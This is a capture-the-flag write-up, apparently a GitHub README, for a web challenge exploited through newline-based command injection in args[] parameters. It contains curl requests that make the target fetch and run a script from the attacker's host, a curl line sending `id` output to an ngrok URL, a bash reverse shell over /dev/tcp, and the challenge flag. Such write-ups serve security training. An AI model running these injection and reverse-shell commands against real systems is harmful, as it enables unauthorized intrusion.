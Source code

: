 # om2electricbogalo

- Oboi this chall was one wild ride, our entire team worked together on this, here goes 

- After digging around on google we found this writeup

https://github.com/p4-team/ctf/tree/master/2015-10-18-hitcon/web_100_babyfirst#eng-version

- In the writeup they used wget, tar and php, how ever in our chall we have access to a `-`, so we can use curl which makes this soo much easier 

- So get a website up and running(via port forwarding or with a vps) with python and an `index.html`file that has the command you wanna execute, in this case, we wanna  confirm the rce so lets try posting to an ngrok url with id as our command

NOTE: once the website is setup you are going to experience random requests from scanning bots and maybe even a few attacks comming from china, so make sure there are no vulnerable scripts in the current directory ;
```
curl NGROK_IP -d cmd=`id`
```

- Then input the correct parameters to make the website call to our website(look into the writeup above), make sure to change your ip to long format cuz `.` is banned

To download the script
```
curl -i -s -k -X $'GET' \
    -H $'Host: 147.182.172.217:42004' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-GPC: 1' \
    $'http://147.182.172.217:42008/?args[]=hello%0a&args[]=curl&args[]=YOUR_IP_LONG&args[]=-o&args[]=shell-script'
```

To execute it
```
curl -i -s -k -X $'GET' \
    -H $'Host: 147.182.172.217:42004' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-GPC: 1' \
    $'http://147.182.172.217:42008/?args[]=hello%0a&args[]=sh&args[]=shell-script'
```

NOTE: `%0A` is url encoded `\n` used to escape the `echo` but it also needs a letter before it to work, hence the `hello`, anything that needs to be seperated by whitespace needs to go after another `&args[]=`

![image](https://user-images.githubusercontent.com/69097212/133955389-aff7119d-13e8-4348-afc4-30a89744207c.png)

SUCCESS!!

- Now just get a standard bash reverse shell on the server and start looking around

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/6.tcp.ngrok.io/11129 0>&1'
```

- Make sure its going through an ngrok tcp tunnel `ngrok tcp 8000` and netcat is listening `nc -lnvp 8000`

- The flag took me wayyyyyyy too long to find, after a long time and a hint from ZerodayTea, i found it in the environment variable

# Flag flag{wow_omg_the_power_of_smol_hacc_without_wget_to_get_lorge_flag_omg_youre_so_cool_who_knew_that_site_input_used_server_side_could_be_dangerous_did_you_cOrL_this_oneeee?}
